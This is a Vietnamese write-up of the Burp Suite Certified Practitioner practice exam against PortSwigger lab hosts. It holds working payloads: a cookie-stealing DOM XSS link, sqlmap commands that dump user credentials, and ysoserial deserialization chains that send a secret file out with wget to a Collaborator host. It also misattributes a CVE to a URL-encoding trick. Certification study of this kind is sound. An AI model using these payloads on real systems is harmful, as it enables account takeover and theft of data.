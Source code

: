 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `HoangNCH`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](https://user-images.githubusercontent.com/61876488/146169208-1eb515aa-faf9-4919-9085-d5ada6a2e7e0.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](https://user-images.githubusercontent.com/61876488/146169329-819e5586-94fa-4eed-b0f6-be11cde765f5.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](https://user-images.githubusercontent.com/61876488/146169366-6806c816-fc92-4168-a9b7-2d46d778e568.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](https://user-images.githubusercontent.com/61876488/146169426-e2946d9c-0bb5-4c07-8276-4cbbf917eaa1.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](https://user-images.githubusercontent.com/61876488/146169487-b96dde85-3d72-415b-983a-b1346d8b70ad.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](https://user-images.githubusercontent.com/61876488/146169515-c176c379-172f-48b5-abbf-ce883c7251fb.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (CVE-2021-41773). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](https://user-images.githubusercontent.com/61876488/146169608-19a26787-cde1-4ea3-9d6d-4f881f86396b.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](https://user-images.githubusercontent.com/61876488/146169678-f5827df6-b5a3-4952-a324-75fee4c8e571.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](https://user-images.githubusercontent.com/61876488/146169729-99373e9e-3644-4a92-9249-2608900db836.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](https://user-images.githubusercontent.com/61876488/146169768-44764d26-ca61-41c6-9fc2-c5e99478596f.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233700777](https://user-images.githubusercontent.com/61876488/146169796-d3fef678-23b1-477a-88d8-39081c9ab40a.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211213233720286](https://user-images.githubusercontent.com/61876488/146169833-e2bd1f02-c3e3-4a65-92e3-ad0a09598ee2.png)

![image-20211214095628881](https://user-images.githubusercontent.com/61876488/146169883-85286f24-35bf-4baa-a63d-546af660baf4.png)

![image-20211214102141470](https://user-images.githubusercontent.com/61876488/146169901-54b0bbf4-51e2-4aeb-9458-2c0a89140653.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](https://user-images.githubusercontent.com/61876488/146170101-864359b4-3ba1-4978-802b-ab779924814b.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](https://user-images.githubusercontent.com/61876488/146224830-e474e8e4-a211-459c-a10c-44ec2df9de03.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](https://user-images.githubusercontent.com/61876488/146225794-949ab1da-f48f-4e6e-8a63-e46948664405.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](https://user-images.githubusercontent.com/61876488/146225553-4287adcd-3c42-4038-85b8-048ccddc96c7.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](https://user-images.githubusercontent.com/61876488/146225700-4171ece7-00d7-48dd-b133-50f181eb12af.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](https://user-images.githubusercontent.com/61876488/146225935-e7c9ecfa-cedb-4c1d-9fa9-3260917195bf.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](https://user-images.githubusercontent.com/61876488/146226035-87a069d0-3b5e-4680-9637-6f0500294d1e.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](https://user-images.githubusercontent.com/61876488/146226107-3b70e47b-2c23-4cc4-80aa-c30510c693ba.png)

![image-20211215163312473](https://user-images.githubusercontent.com/61876488/146226178-34d29412-1f4a-4eb0-849c-abd37701766c.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```

![image-20211215154458664](https://user-images.githubusercontent.com/61876488/146226291-b748f2ca-8558-4c6b-9c03-a6a7dfa096ab.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](https://user-images.githubusercontent.com/61876488/146226418-fe236de8-9ac5-4541-adbc-5642f32865fd.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](https://user-images.githubusercontent.com/61876488/146226480-ec4e59b6-9818-43e8-a26e-78997c167d14.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP:

![image-20211215155436265](https://user-images.githubusercontent.com/61876488/146226623-dd2ddd99-5b72-425c-b055-2d6316414c69.png)

![image-20211215155444115](https://user-images.githubusercontent.com/61876488/146226686-18428acd-1f33-4f19-9910-8a5afc716e1f.png)

![image-20211215165432252](https://user-images.githubusercontent.com/61876488/146226741-573b1d60-6ff6-479f-8c87-db0085b8ebcc.png)
